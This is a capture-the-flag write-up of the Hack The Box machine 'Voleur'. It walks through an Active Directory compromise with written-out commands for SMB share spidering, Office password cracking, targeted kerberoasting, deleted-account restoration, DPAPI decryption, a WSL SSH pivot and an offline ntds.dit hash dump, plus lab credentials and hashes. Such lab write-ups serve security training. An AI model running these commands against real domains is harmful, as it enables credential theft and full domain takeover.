



# Hack The Box - Voleur




Voleur is a medium-difficulty Windows machine in an assumed-breach setup. The path to compromise involves Active Directory enumeration, password recovery from an Office document, targeted kerberoasting, DPAPI credential decryption, and finally using backup artifacts from a WSL environment to dump domain hashes and take over the controller.

## Reconnaissance

I started with port discovery against the target domain controller.

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-29 06:30:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp   open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49749/tcp open  msrpc         Microsoft Windows RPC
50691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
50692/tcp open  msrpc         Microsoft Windows RPC
50694/tcp open  msrpc         Microsoft Windows RPC
50720/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux
```

The target is the domain controller for `voleur.htb`, and I added the relevant hostnames to `/etc/hosts`. SSH on port 2222 is also exposed, and Nmap reports Ubuntu as the OS there, which suggests WSL or a container on the host.

## Initial Access

The box starts with credentials for `ryan.naylor`:

```text
ryan.naylor:HollowOct31Nyt
```

I used those credentials to enumerate SMB shares, but NTLM authentication was disabled, so I switched to Kerberos and adjusted for the time skew.

```bash
faketime -f +8h nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
```

That revealed several shares, including `IT`, which I spidered for files.

```bash
faketime -f +8h nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --spider IT --regex .
```

The interesting find was `Access_Review.xlsx` in `First-Line Support`. I downloaded it and cracked the Office password with `office2john` and John the Ripper.


```text
football1
```

Once opened, the spreadsheet contained credentials for multiple service accounts, including:



- `svc_ldap:M1XyC9pW7qT5Vn`
- `svc_iis:N5pXyW1VqM7CZ8`
- a deleted account password: `NightT1meP1dg3on14`

## Service Account Enum

I authenticated as `svc_ldap` and collected AD data with BloodHound.

```bash
faketime -f +8h bloodhound-ce-python --domain voleur.htb \
  --username 'svc_ldap' \
  --password 'M1XyC9pW7qT5Vn' \
  --kerberos \
  --nameserver 10.129.232.130 \
  --dns-tcp \
  --collection ALL \
  --zip
```

BloodHound showed that `svc_ldap` had outbound control paths, including the ability to target `svc_winrm` for kerberoasting.



I requested a TGT and then used targeted kerberoasting to extract the SPN hash for `svc_winrm`.

```bash
faketime -f +8h impacket-getTGT VOLEUR.HTB/svc_ldap:'M1XyC9pW7qT5Vn'
export KRB5CCNAME=svc_ldap.ccache
faketime -f +8h targetedKerberoast.py -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' -d 'voleur.htb' --dc-host dc.voleur.htb -k --request-user 'svc_winrm'
```

I cracked that hash and recovered:

```text
AFireInsidedeOzarctica980219afi
```

That password, however, did not lead to a useful next step.

## Deleted Account Recovery

I checked for additional rights with `bloodyAD` and found a deleted user: `todd.wolfe`.

```bash
faketime -f +8h bloodyAD --host dc.voleur.htb \
  --domain voleur.htb \
  --username 'svc_ldap' \
  --password 'M1XyC9pW7qT5Vn' \
  --kerberos \
  get writable --include-del
```

The spreadsheet had already given me `todd.wolfe`’s password:

```text
NightT1meP1dg3on14
```

I restored the deleted account with `bloodyAD`, then authenticated as `todd.wolfe`.

```bash
faketime -f +8h bloodyAD --host dc.voleur.htb \
  --domain voleur.htb \
  --username 'svc_ldap' \
  --password 'M1XyC9pW7qT5Vn' \
  --kerberos \
  set restore todd.wolfe
```

That account still only had limited SMB access, but the `IT` share became much more useful in that security context. Spidering it revealed DPAPI material in the archived user profile.

## DPAPI Decryption

Inside the `IT` share I found the relevant DPAPI credential and masterkey files for `todd.wolfe`:

- `DFBE70A7E5CC19A398EBF1B96859CE5D`
- `08949382-134f-4c63-b93c-ce52efc0aa88`

I downloaded both files and used the SID from the path:

```text
S-1-5-21-3927696377-1337352550-2781715495-1110
```

Then I decrypted the masterkey and the credential blob with Impacket.

The recovered credential was:

```text
Username: jeremy.combs
Password: qT3V9pLXyN7W4m
```

## WSL Pivot

I used the new credentials to inspect the `IT` share again and found an RSA key plus a note in `Third-Line Support`.

The note said the admin had partially configured WSL to use Linux backup tools, and the SSH service on port 2222 became relevant here. I used the RSA key to log in as `svc_backup`.

```bash
ssh -i id_rsa -p 2222 svc_backup@dc.voleur.htb
```

Inside WSL, the Windows file system was mounted at `/mnt/c`, which exposed additional files in the `IT` share, including a backups directory.

```text
/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit
/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM
/mnt/c/IT/Third-Line Support/Backups/registry/SECURITY
```

Those files were enough to dump the domain database offline.

## Domain Dump

I copied the backups to my machine and ran `secretsdump` against the local files.

```bash
impacket-secretsdump -ntds 'Backups/Active Directory/ntds.dit' \
  -system 'Backups/registry/SYSTEM' \
  -security 'Backups/registry/SECURITY' \
  local
```

That extracted the NTLM hashes for the domain, including the Administrator account:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
```

With the Administrator hash in hand, the domain controller was effectively owned.

## Attack Path

- Enumerate the domain controller and identify AD services.
- Use the initial `ryan.naylor` credentials to access SMB.
- Download and crack `Access_Review.xlsx`.
- Recover service account credentials from the spreadsheet.
- Run BloodHound and targeted kerberoast `svc_winrm`.
- Discover and restore the deleted `todd.wolfe` account.
- Decrypt DPAPI data to recover `jeremy.combs`.
- Use the SSH key to access `svc_backup` over the WSL SSH service.
- Locate AD backup files from the mounted Windows filesystem.
- Dump domain hashes with `secretsdump`.
- Retrieve the Administrator NTLM hash and take the DC.

